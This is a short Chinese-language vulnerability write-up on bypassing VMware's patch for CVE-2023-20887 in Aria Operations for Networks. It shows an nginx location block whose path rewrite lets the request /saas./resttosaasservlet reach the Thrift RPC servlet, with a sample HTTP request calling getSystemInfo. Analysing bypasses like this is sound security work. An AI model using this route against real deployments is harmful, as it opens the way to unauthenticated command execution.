 由于nginx配置不当和拼接命令导致的rce，用了thrift做rpc。

# VMSA-2023-0012

Aria Operations for Networks Command Injection Vulnerability (CVE-2023-20887) 是对nginx规则的绕过

[![](assets/1701612478-724f720d1841683b0e61183bd697d1d9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230614102952-577095de-0a5b-1.png)

上面的漏洞补丁放宽正则禁止了/saasresttosaasservlet路由，但是下面还有一个location块

```plain
location /saas {
    rewrite ^/saas(.*)$ /$1 break;
    proxy_pass http://127.0.0.1:9090;
    proxy_redirect off;
    proxy_buffering off;
    proxy_set_header        Host            $host;
    proxy_set_header        X-Real-IP       $remote_addr;
    proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
}
```

所以可以绕过

```plain
POST /saas./resttosaasservlet HTTP/2
Host: 192.168.1.155
User-Agent: Java/THttpClient/HC
Accept: application/x-thrift
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

[1,"getSystemInfo",1,1,{"1":{"i32":10000}}]
```
